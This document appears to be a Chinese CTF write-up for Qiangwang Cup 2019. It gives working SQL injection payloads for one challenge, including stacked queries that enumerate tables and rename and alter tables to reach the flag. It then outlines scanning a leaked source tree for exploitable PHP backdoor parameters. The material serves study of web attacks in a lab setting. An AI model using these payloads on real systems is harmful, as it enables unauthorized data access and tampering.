



# 强网杯2019-Writeup

## 随便注



构造URL发现是否存在注入点（废话）

``` url
/?inject=1 ' or '1'='1';#
```



通过查询发现，直接把原始的返回数据给返回到页面


随意构造了一个shelect语句，返回了过滤信息：

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

可以发现，这里过滤了：`select` `update` `dalete` `drop` `insert` `where` `.` 等敏感关键词

过滤的单词非常多，通过判断可以基本判定使用“**[堆叠注入（堆查询）](https://www.cnblogs.com/0nth3way/articles/7128189.html)**”是第一选择

构造堆叠注入判断Payload：`/?inject=1';show databases;#`查询所有数据库的库名



喏！可以判定这里存在“堆叠注入”

- 查询表名：`/?inject=1';show tables;#`

- 通过查询发现存在两个表：**words** 和 **1919810931114514** 

- 查询表字段：
  - `/inject=1';show columns from 1919810931114514;# `
    - 存在“flag“字段
    - 这张表里有flag
  - `/inject=1';show columns from words;#`
    - 存在 “id”和“data"两个字段
    - 可以发现这个表就是提交查询数据的那张表


从前辈的WP中了解到一招，将查询的默认表”words”改为“1919810931114514”

``` mysql
/?inject=1';
RENAME TABLE `words` TO `words1`;
RENAME TABLE `1919810931114514` TO `words`;
ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;
show columns from words;#`
```

> - 表名重命名：`RENAME TABLE '原表名' TO '新表名'`
>
> - [ALTER TABLE](https://www.w3school.com.cn/sql/sql_alter.asp)：用于在已有的表中添加、修改或删除列
>   - ADD：添加字段 `ALTER TABLE 'table' ADD '新字段名' '类型'`
>   - DROP：删除字段`ALTER TABLE 'table' DROP COLUMN '字段名'`
>   - CHANGE：修改字段`ALTER TABLE 'table' CHANGE '字段名' '新字段名' 类型`
>

构造:`/?inject=1 ' or '1'='1';#` 获得Flag！

#### 总结：

> 


## 高明的黑客

按照提示，下载了“www.tar.gz”网站源码；下载后发现几百个文件，蒙蔽！直接找[Writeup](https://www.ctfwp.com/articals/2019qiangwang.html#%E9%AB%98%E6%98%8E%E7%9A%84%E9%BB%91%E5%AE%A2)

写一个脚本批量扫描”_GET"和" _POST"，传播一些特定的代码（ 比如 echo("glzjin"); /echo("glzjin") / echo glzjin，eval，assert，system 函数需要分别处理，一个文件需要用几种姿势多测几次)看看能执行不，能执行返回这种特定的字符串就说明此处可用。 

